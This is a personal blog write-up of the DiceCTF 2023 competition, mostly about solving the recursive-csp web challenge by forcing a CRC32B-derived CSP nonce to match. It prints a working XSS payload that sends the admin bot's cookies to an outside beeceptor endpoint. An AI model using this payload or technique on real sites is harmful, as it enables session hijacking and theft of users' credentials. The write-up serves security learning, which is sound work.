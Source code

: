 ```yaml
---
title: "DiceCTF 2023 Writeup"
date: 2023-02-11T09:47:42-08:00
description: My DiceCTF challenge experiences. What I learned and what cool things I found out.
images:
  - images/2023-02-11/solved-screenshot.png
tags:
  - ctf
  - security
type: post
---
```


Hello! 

DiceGang 🎲 just finished hosting DiceCTF 2023 (https://ctf.dicega.ng). It was first my first ever CTF event. I didn't really have any expectations going in and signed up on a whim. But guess what? I managed to solve one of the challenges and even gave a couple others a shot. I learned a ton from this event, and I'm definitely going to attend more CTF events in the future.

Here are my write ups.

### web/recursive-csp
* solved
* solves: 178
* description: the nonce isn't random, so how hard could this be? (the flag is in the admin bot's cookie)

I was greeted with a simple Hello World and an input for name. The form is simple, it submits a `GET` request with `name` as query parameter. The new page's title changed from "Hello world! to "Hello andy!".

{{< figure
    src="/images/2023-02-11/hello-world.png"
    alt="A screenshot of the recursive-csp challenge."
>}}

This was screaming XSS to me, so I just randomly inputting possible XSS attacks. But none of the `<script>` code was executing. Looking at the console error, it was blocked by the CSP header.
```
Content Security Policy: The page’s settings blocked the loading of a resource at inline (“script-src”).
```

The CSP header (`content-security-policy: default-src 'none'; script-src 'nonce-fe26ee76' 'unsafe-inline'; base-uri 'none';`) is only allowing script with particular nonce! This matches up with the hint. I started looking at how the nonce is generated by the server. At the first, I thought it was using the whole document or the date time as the input for hashing, and then only to realized that only the `name` parameter was used for input. It made so much sense to just use the input, this took way longer than I want to admit. 

Now I know what the server was using for the input, I needed to know what kind of algorithm it is using. The nonce was always 8 characters so I started looking at any algorithm that will output 8 characters. I spent a long time on searching this. I didn't know many hashing or encoding function except the basics: md5, sha256, etc. Until I finally found a site: https://md5calc.com. I used it to test md5 and other algorithms I know. What's cool about this site is that it outputs string encoded with other popular algorithms. This is how I found "CRC32B" hashing function.

> Future self here: it seems like CRC32B is a common hashing function provided by PHP. If only I could google what kind of hashing function php provides.

Now I know how the server generate the nonce, I just need to somehow force it to match with my XSS. I wrote a simple js script to output `<script nonce="{input}">alert(1)</script>` where I replaced the "{input}" with a 8 characters random string and hoped the CRC32B hashing will return the same thing. My script didn't work and I was stuck. It was not able even brute force one match for me. I ran the script for half an hour but no luck. 

I began searching online for a way to brute force it, and luckily stumbled upon this blog post by [Nayuki] https://www.nayuki.io/page/forcing-a-files-crc-to-any-value. The blog explains in details how the math works. To summarize it, the script adds 4 extra bytes to match the provided hash. This was really cool. I experimented with the script and found out some bytes that are injected are not URI friendly so I have to re-hash it again with a different value. 

At the end, I wrote a script to generate the hash. The flag was in admin bot's cookie so I had to update the script to send the cookie to an endpoint I control. Since CSP prevents any network requests for sending the cookie, I used `document.location` to change the URL in admin bot and hoped that it would redirect before it close the headless browser. To my surprise it worked. 

Here is my final payload. I injected the random 4 bytes at the end (`u091`). You can check the hash, it should match to `55ed1ba5`.
```html
<script nonce="55ed1ba5">document.location="https://adice.free.beeceptor.com?c="+document.cookie</script>  uO91
```

> Future self here: `https://beeceptor.com` was a site I used to get a temporary endpoint. However, reading everyone else's write up it seemed like `https://webhook.site` is what people usually use. 

This is the flag I got at the end, `dice{h0pe_that_d1dnt_take_too_l0ng}`. Honestly, I faced a lot of difficulties during the whole challenge: figuring out the hash algorithm, troubleshooting why the random bytes weren't working in the URL, and understanding how the admin bot operates. It took me roughly 15 hours to solve this challenge, but even if I hadn't solve it, it would still have been worth the effort. The amount of joy when I saw the flag was indescribable.

{{< figure
    src="/images/2023-02-11/solved-screenshot.png"
    alt="A solved screenshot for recursive-csp challenge in dashboard view."
>}}

Here is the author [strellic]'s [write up](https://brycec.me/posts/dicectf_2023_challenges). He wrote a simple rust program to force the output which is much faster than my javascript version! Additionally, he created three more awesome challenges that are worth checking out!


## Unsolved challenge 

I attempted other challenges but couldn't solve them. Here are notes to myself for studying and documenting what I attempted.

### web/scorescope
* solves: 55
* description: I'm really struggling in this class. Care to give me a hand?

This challenge had a file named `template.py`, we needed to implement all the functions and upload to the site for grading. (It felt like university homework.) The test cases included a `hidden` case so users couldn't guess it. I couldn't solve this. I don't use `python` regularly. But here is a good [write up by r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/).

I learned a lot about exposing what the main module has and how to manipulate it.

### web/codebox
* solves: 30
* description: strellic makes csp challs, maybe i should try one sometime

This is another really cool challenge with CSP. It uses `report-uri` to leak information to an external server. It also uses a cool trick with how `URL().searchParams.get()` and `express`'s `req.query` parse multiple parameters with the same key. `URL` uses the first and `express` uses the last. This blew my mind 🤯. I didn't know even think this was possible, I assume everything follow a standard.

[r3kapig](https://r3kapig.com/writeup/20230206-DiceCTF2023-EN/)'s write up has a detail explanation on how the challenge worked and how they solved it.


## Conclusion

This was my first ever CTF event, I am really proud that I even solved 1 challenge. I learned a lot by participating the event. Also, thank you to the DiceGang staff in teh discord chat. I didn't really know how to use the admin bot so I was asking weird questions about it.

Here are things that I learned:
* Amazing people/groups to follow: [strellic], [ankursundara], [r3kapig], [Nayuki], and [dicegang]
* Content Security Policy header and how to use it.
* CRC32 hashing algorithm.
* [pwntool](https://github.com/Gallopsled/pwntools) to interact with server. Useful for scripting and parsing the output.


There are plenty more things that I won't list here. That's about it, thank you for reading. 

[strellic]: https://twitter.com/Strellic_
[ankursundara]: https://twitter.com/ankursundara
[r3kapig]: https://twitter.com/r3kapig
[Nayuki]: https://www.nayuki.io
[dicegang]: https://twitter.com/dicegangctf
